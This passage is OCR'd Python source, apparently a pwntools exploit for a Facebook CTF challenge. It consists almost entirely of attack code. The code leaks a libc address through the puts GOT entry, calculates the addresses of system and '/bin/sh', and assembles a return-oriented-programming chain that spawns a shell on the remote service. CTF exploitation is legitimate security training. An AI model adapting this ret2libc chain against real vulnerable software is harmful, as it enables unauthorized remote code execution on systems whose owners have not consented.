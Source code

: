 ```
	else:
		return (val + 0x100000000) >> n

def write_16_bytes(inputbytes):
	lower_bytes = inputbytes & 0xffffffff
	upper_bytes = int(rshift(inputbytes, 32))
	send_lat_long(lower_bytes, upper_bytes)

def send_payload(payload):
	for i in range(len(payload)/8):
		fragment = payload[(8*i):(8*i+8)]
		this_int = int(hexlify(fragment),16)
		write_16_bytes(this_int)

DELAY = 0.2

POP_RDI = 0x0000000000400a83 # pop rdi ; ret
POP_RSI = 0x0000000000400a81 # : pop rsi ; pop r15 ; ret

p = remote('challenges.fbctf.com', 1341)


## Leak the libc address for puts.
payload = ""
payload += "AAAABBBB"*6
payload += "\x00\x00\x00\x00\x00\x60\x29\x00" # bss
payload += "\x00\x00\x00\x00\x00\x40\x0a\x83" # POP_RDI
payload += "\x00\x00\x00\x00\x00\x60\x20\x20" # GOT table for puts
payload += "\x00\x00\x00\x00\x00\x40\x09\xe8" # return to puts
send_payload(payload)

p.send("done\n")
p.recvuntil("VOYAGE!\n")
libc_addr = p.recv(6)

LIBC_ADDR = u64(libc_addr + "\x00\x00")
log.info("libc address = " + hex(LIBC_ADDR) + "\n")

LIBC_OFFSET = 0x809c0
LIBC_BASE = LIBC_ADDR - LIBC_OFFSET
log.info("libc base = " + hex(LIBC_BASE) + "\n")

SYSTEM_OFFSET = 0x4f440
BINSH_OFFSET = 0x1b3e9a

SYSTEM_ADDR = LIBC_BASE + SYSTEM_OFFSET
BINSH_ADDR = LIBC_BASE + BINSH_OFFSET
log.info("system is at " + hex(SYSTEM_ADDR) + "\n")

BINSH_ADDR = LIBC_BASE + BINSH_OFFSET
RET_ADDR = 0x0000000000400661
log.info("binsh is at " + hex(BINSH_ADDR) + "\n")


## Here's the ROP chain
payload2 = ""
payload2 += "/bin/sh\x00"*6
payload2 += "\x00\x00\x00\x00\x00\x60\x29\x00" # bss
payload2 += "\x00\x00\x00\x00\x00\x40\x0a\x83" # POP_RDI
payload2 += p64(BINSH_ADDR)[::-1]
# I need an empty ret so that rsp is aligned with a multiple of 16 bytes
payload2 += p64(RET_ADDR)[::-1]
payload2 += p64(SYSTEM_ADDR)[::-1]
```